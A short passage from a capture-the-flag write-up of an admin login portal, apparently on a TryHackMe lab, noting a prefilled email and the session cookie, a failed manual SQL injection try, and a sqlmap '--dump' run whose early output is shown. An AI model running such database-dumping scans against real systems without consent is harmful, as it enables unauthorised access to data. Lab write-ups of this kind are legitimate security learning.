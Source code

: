 <img src="images/admin_101.png">

This admin portal already has a email in the fied.

***hacker@root.thm***

Other stuff about the web page. 
* It is using phpsessid as a cookie. These cookies have no type of encoding and are just a random identifier value
* It most likely sets the phpsessid in the backend and checks it when redirecting to chat.php, don't know if i can exploit this.

**SQLI**
Tried manual sqli but got nowhere

**SQLMAP**

```
$ sqlmap -r post_method.txt --dump
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.7.8#stable}                                                                                       
|_ -| . [']     | .'| . |                                                                                                      
|___|_  [']_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:13:22 /2023-09-24/

[10:13:22] [INFO] parsing HTTP request from 'post_method.txt'
[10:13:22] [INFO] testing connection to the target URL
[10:13:22] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[10:13:22] [INFO] testing if the target URL content is stable
[10:13:22] [INFO] target URL content is stable
[10:13:22] [INFO] testing if POST parameter 'email' is dynamic
[10:13:22] [INFO] POST parameter 'email' appears to be dynamic
```